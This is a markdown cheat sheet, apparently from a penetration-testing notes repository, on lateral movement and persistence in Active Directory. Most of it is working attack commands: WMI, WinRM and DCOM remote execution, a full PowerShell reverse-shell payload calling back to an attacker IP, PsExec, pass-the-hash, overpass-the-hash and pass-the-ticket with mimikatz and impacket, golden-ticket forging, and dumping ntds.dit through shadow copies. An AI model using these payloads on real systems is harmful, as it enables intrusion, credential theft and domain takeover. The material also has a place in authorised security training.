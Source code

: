 # Lateral movements in AD

## Techniques

### Windows Remote Management

#### WMI

Takes a local group `Administrators` account:

##### In `cmd`

Deprecated:
```
wmic /node:$TargetIp /user:somelocalAdminuser /password:somepass process call create "cmd"
wmic /node:$TargetIp /user:somelocalAdminuser /password:somepass process call create "powershell -nop -w hidden -e longbase64encodedstring"
```

##### In PowerShell

```
$username = 'user';
$password = 'pass';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName $VictimIP -Credential $credential -SessionOption $Options
$Command = 'powershell -nop -w hidden -e somebase64string
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command};
```

For a PowerShell reverse shell (in Python, replace the IP and Port): 
```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("AttackerIp",AttackerPort); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i); $sendback = (iex $data 2>&1 | Out-String); $sendback2 = $sendback + "PS " + (pwd).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte, 0, $sendbyte.Length); $stream.Flush()}; $client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

#### WinRM

##### In `cmd`: WinRS (Windows Remote Shell)
 
```
winrs -r:targethostname -u:user -p:pass  "powershell -nop -w hidden -e somebase64string"
```

##### In PowerShell

```
$username = 'user';
$password = 'pass';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName $VictimIp -Credential $credential

Enter-PSSession $winrm_session_number
```

### PsExec

Pre-requisites:
- user `targetuser` needs to be part of the `Administrators` local group
- the `ADMIN$` share must be available
- `File and Printer Sharing` has to be turned on

Uses Sysinternals: https://learn.microsoft.com/en-us/sysinternals/

```
kali $ rdesktop -u $firstUser $firstTargetIp
cmd > C:\path\to\PsExec64.exe -i  \\targethostname -u targetdomain\targetuser -p somepass cmd
> hostname
> whoami
```

### Pass the Hash

Same requisites as PsExec: an `ADMIN$` share available and `File and Printer sharing` enabled. And an SMB connection (usually port 445). \
Works with servers and services using NTLM authentication, but NOT with Kerberos authentication. \
Works for Active Directory domain accounts and the built-in local administrator account. Doesn't work for local admins.\
Impacket-Wmiexec on GitHub: https://github.com/fortra/impacket/blob/master/examples/smbclient.py
```
/usr/bin/impacket-wmiexec -hashes 00000000000000000000000000000000:somelonghashstring Administrator@$VictimIP
```

### Overpass the Hash

First, run a process as a different user with Shift-Right click, say Notepad, to cache this targeted user credentials. Then:
```
kali$ xfreerdp /cert-ignore /u:someuser /d:targetorg.com /p:somepass /v:somehostIp
PS > c:\path\to\mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::pth /user:targetuser /domain:targetorg.com /ntlm:somentlmstring /run:powershell
PS2 > klist # check the cached tickets
PS2 > net use \\otherhostname
PS2 > klist # re-check the cached tickets
PS2 > cd c:\path\to\psexec
PS2 > .\PsExec.exe \\otherhostname cmd
cmd > whoami # targetuser
cmd > hostname # otherhostname
```

If the targeted user has access rights on other servers, the hash could allow to connect.

### Pass the Ticket

Context:
- attacker connected as user1 on host1
- user2 is connected on host1 and has access to resources on host2 \
Goal:
- steal user2's Ticket Granting Service (TGS) in memory and inject it in user1's session.
- then connect as user1 on host2 using user2's ticket or access the resources on host2

```
PS > whoami # user1
PS > net view \\host2 /all # list all the shares on the remote host2
PS > ls \\host2\someshare # access denied to a particular share 'someshare'
PS > c:\path\to\mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
PS > dir *.kirbi # file with the tickets
mimikatz # kerberos::ptt name_of_the_kirbi_file_with_user2_tickets.kirbi
PS > klist # lists the tickets, user2 should appear
PS > ls \\host2\someshare # access granted
```

### DCOM

In an elevated PowerShell:
```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","$targetIpAddress")) # the IP address is the only parameter to modify
```
Usage to open a `calc` on the remote computer:
```
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc", "7") # parameters are Command, Directory, Parameters, and WindowState
```
Usage to launch a reverse PowerShell on the remote computer:
```
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e base64longreverseshellstring", "7")
```
Reference: https://learn.microsoft.com/en-us/previous-versions/windows/desktop/mmc/view-executeshellcommand

## Persistence

### Golden ticket

Kerberos service account: `krbtgt`
Mimikatz on GitHub:
- https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump
- https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos

Takes a Domain Admin account on the Domain Controller, or have compromised the Domain Controller:
```
SomeWorkstation c:\path\to\sysinternalsuite > .\PsExec64.exe \\TargetDomainController cmd.exe # access denied

DomainController c:\path\to\mimikatz > .\mimikatz.exe # on the Domain Controller, with a Domain Admin account
DC mimikatz # privilege::debug
DC mimikatz # lsadump::lsa /patch # search for the krbtgt service NTLM hash, and get the domain SID: S-1-5-21-x-y-z

SomeWorkstation c:\path\to\mimikatz > mimikatz.exe # on a workstation, with a random user account
SomeWorkstation mimikatz # kerberos::purge
SomeWorkstation mimikatz # kerberos::golden /user:targetrandomuser /domain:somedomainname.com /sid:S-1-5-21-x-y-z /krbtgt:NtlmHash /ptt
SomeWorkstation mimikatz # misc::cmd

SomeWorkstation c:\path\to\sysinternalsuite > .\PsExec64.exe \\TargetDomainController cmd.exe # access granted on the Domain Controller
DomainController c:\any\path > ipconfig
c:\any\path > whoami # targetrandomuser
c:\any\path > whoami /groups # expected "somedomainname\Domain Admins"

SomeWorkstation c:\path\to\sysinternalsuite > .\PsExec64.exe \\TargetDomainControllerIpAddress cmd.exe # access denied, the IP address triggers an NTLM authentication
```

Reference: https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don%27t-Get-It.pdf

### Shawdow copies

Connect as a Domain Admin on the Domain Controller.
Impacke-SecretDump on GitHub: https://github.com/fortra/impacket/blob/master/examples/secretsdump.py
```
c:\path\to\vshadow > .\vshadow.exe -nw -p c: # take note of the "Shadow copy device name"
> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\windows\ntds\ntds.dit c:\ntds.dit.bak
> reg.exe save hklm\system c:\system.bak

kali $ impacket-secretdump -ntds ntds.dit.bak -system system.bak LOCAL
```
Hashes can be cracked or used for PtH attacks.
